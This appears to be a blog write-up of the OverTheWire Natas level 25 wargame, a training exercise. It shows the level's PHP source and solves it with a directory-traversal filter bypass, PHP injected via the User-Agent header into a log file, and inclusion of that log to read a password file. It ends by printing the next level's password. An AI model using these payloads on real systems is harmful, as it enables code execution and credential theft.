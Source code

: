 ```yaml
---
layout: post
title:  "OverTheWire Wargames :: Natas :: Level 25"
date:   2017-07-18
---
```


[OverTheWire: Natas](http://overthewire.org/wargames/natas/)

# Level 25 > Level 26

![natas25-01](/img/otw-natas/natas25-01.png)

Cool quote.

```
<html>
<head>[...]</head>
<body>
<?php
    // cheers and <3 to malvina
    // - morla

    function setLanguage(){
        /* language setup */
        if(array_key_exists("lang",$_REQUEST))
            if(safeinclude("language/" . $_REQUEST["lang"] ))
                return 1;
        safeinclude("language/en"); 
    }
    
    function safeinclude($filename){
        // check for directory traversal
        if(strstr($filename,"../")){
            logRequest("Directory traversal attempt! fixing request.");
            $filename=str_replace("../","",$filename);
        }
        // dont let ppl steal our passwords
        if(strstr($filename,"natas_webpass")){
            logRequest("Illegal file access detected! Aborting!");
            exit(-1);
        }
        // add more checks...

        if (file_exists($filename)) { 
            include($filename);
            return 1;
        }
        return 0;
    }
    
    function listFiles($path){
        $listoffiles=array();
        if ($handle = opendir($path))
            while (false !== ($file = readdir($handle)))
                if ($file != "." && $file != "..")
                    $listoffiles[]=$file;
        
        closedir($handle);
        return $listoffiles;
    } 
    
    function logRequest($message){
        $log="[". date("d.m.Y H::i:s",time()) ."]";
        $log=$log . " " . $_SERVER['HTTP_USER_AGENT'];
        $log=$log . " \"" . $message ."\"\n"; 
        $fd=fopen("/var/www/natas/natas25/logs/natas25_" . session_id() .".log","a");
        fwrite($fd,$log);
        fclose($fd);
    }
?>

<h1>natas25</h1>
<div id="content">
<div align="right">
<form>
<select name='lang' onchange='this.form.submit()'>
<option>language</option>
<?php foreach(listFiles("language/") as $f) echo "<option>$f</option>"; ?>
</select>
</form>
</div>

<?php  
    session_start();
    setLanguage();
    
    echo "<h2>$__GREETING</h2>";
    echo "<p align=\"justify\">$__MSG";
    echo "<div align=\"right\"><h6>$__FOOTER</h6><div>";
?>
<p>
<div id="viewsource"><a href="index-source.html">View sourcecode</a></div>
</div>
</body>
</html>
```

When the page loads, `setLanguage()` looks at the `lang` parameter and includes a file of that name from the language directory. We know the default language is 'en' so let's see if the server lets us view it.

![natas25-05](/img/otw-natas/natas25-05.png)

OK that was pretty lucky, did not expect that to load as text. Apparently the greeting, msg, and footer variables are included from the language file. Not just included, but `safeinclude`'d! That function has a check for directory traversal which works by stripping out instances of `../` which seems like a good idea but it sucks big league (bigly?). Reminds me of one of my favorite XSS challenges, the classic scrscriptipt. Remove script from scrscriptipt and you're left with... script.

Same principle here, except we'd like to end up with a `../` after `str_replace` runs.  Proposal: 

```
../.../...//
```

There's no reason for the leading `../` looking back, but that's what came to mind.

So we can very likely bypass the directory traversal detection but how do we get the password? There's an additional check in `safeinclude` that prohibits the name of the password file which appears effective. 

The `logRequest` function logs the `HTTP_USER_AGENT` string into a log file named by the user's session token without sanitization. Now we have all the pieces - load PHP into the log file via injecting the user agent string, then load the log file as a language using directory traversal (and the traversal detection bypass).

A test run, let's see if I can inject 'oh damn!' as the msg variable into the logs and execute the log via inclusion as a language.

```
User-Agent: <?php global $_MSG; $_MSG='oh damn!'; ?>
````

![natas25-02](/img/otw-natas/natas25-02.png)

Success!

Now for something more useful - loading the password file into one of these variables, say the footer.

```
User-Agent: <?php global $_FOOTER; $_FOOTER=file_get_contents('/etc/natas_webpass/natas26'); ?>
````

![natas25-03](/img/otw-natas/natas25-03.png)

Cool.

oGgWAJ7zcGT28vYazGo4rkhOPDhBu34T
